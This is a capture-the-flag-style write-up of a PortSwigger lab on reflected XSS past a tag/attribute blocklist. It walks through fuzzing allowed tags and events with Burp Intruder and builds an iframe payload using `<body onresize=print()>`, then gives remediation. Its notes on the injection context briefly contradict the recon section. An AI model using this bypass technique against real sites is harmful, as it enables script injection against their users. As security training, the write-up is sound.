

## Metadata

- **Difficulty:** Practitioner
- **Category:** Cross-site Scripting (XSS) - Reflected
- **Lab URL:** [Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)
- **Date Solved:** 4/6/2026
## Vulnerability Summary

The app contains a reflected XSS vulnerability in the search functionality. Though it does attempt to block most tags and attributes, the insecurely allowed tags and attributes are sufficient to exploit XSS and provide PoC by calling the `print()` function.
## Reconnaissance

- Entering a normal string like `aaa` into the search bar produces this request: `GET /?search=aaa`, and the string is reflected back in the response body inside a `<h1>` element: `<h1>0 search results for 'aaa'</h1>`. User input is being placed directly into the HTML without escaping.
- Trying to inject `<script>print()</script>` to the search parameter, we get a `400 Bad Request` HTTP response that reads `"Tag is not allowed"`. We need to find tags and attributes that are allowed.
## Exploitation Steps

1. Type in a random string into the search bar, e.g. `aaa`. Intercept this request.
2. Send this request to Burp Intruder (or the Automate tab in Caido). Modify the header of the request to `GET /?search=<> HTTP/2` and add payload position between the angle brackets (`GET /?search=<$$> HTTP/2`). Paste the tags on [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) onto the list of payloads to be used. Select attack type to be `Sniper Attack`, then start attack.
3. Once the attack's done, sort the status code of the requests - as we must find request(s) with status code of 200, signifying that the tag is allowed. You should see that other than custom tags (represented by `<xss>`) there is only one type of tag allowed, the `<body>` tag.  

4. Next, we need to find out what type(s) of attribute is allowed. Modify the header of request to `GET /?search=<body%20$$=1> HTTP/2` (`$$` is the payload position) and copy the events on  [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to be the payload list. Run a `Sniper Attack` again, then after the attack's done, sort the status code column to find the requests with `200 OK` HTTP Response. You'll find several of them, but per the lab's request "Your solution must not require any user interaction. Manually causing `print()` to be called in your own browser will not solve the lab", we must use an event that does not require any user interaction. After trial and error, I found out that `onresize` works.
5. Go to the exploit server and paste this payload onto the body:
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize%3Dprint()%3E" onload=this.style.width="200px"> 
```
Then Store -> Deliver exploit to victim. You should see that the lab is solved.
## Payload Used

[XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize%3Dprint()%3E" onload=this.style.width="200px"> 
```
- URL encoded `">` (`%22%3E`) to break out of the app's `<input value = "...>` to allow raw HTML to be interpreted by the DOM.
- URL encoded `<body onresize=print()>` (`%3Cbody%20onresize%3Dprint()%3E`) to trigger the `print()` function on the event `onresize`.
- `onload=this.style.width="200px"`: trigger the `onresize` event to execute the `print()` function. 
## Root Cause

The vulnerability exists due to a failure to perform context-aware output encoding on user-supplied data. The application takes untrusted input from the `search` parameter and reflects it directly into the HTML document structure (inside the `<h1>` tag).

Additionally, the app insecurely relies on a WAF as the primary defense mechanism against XSS. The WAF was configured with a flawed blocklist that failed to account for the `<body>` tag and the `onresize` event handler. 
## Remediation

To eliminate this vulnerability, the remediation must occur at the application layer code. WAF should only be implemented as a Defense-in-Depth mechanism, and even then, it should use a whitelist, not a blacklist.
1. The application must HTML-entity encode all user-supplied input before reflecting it into the HTML document. Specifically, the following characters must be converted into their safe HTML entity equivalents:
    - `<` to `&lt;`
    - `>` to `&gt;`
    - `"` to `&quot;`
    - `'` to `&#x27;`
    - `&` to `&amp;`
2. Implement a strict CSP via HTTP response headers to mitigate the impact of any missed injection flaws. A policy such as `Content-Security-Policy: default-src 'self'; script-src 'self'` would completely neutralize this exploit by preventing the browser from executing inline event handlers like `onresize`.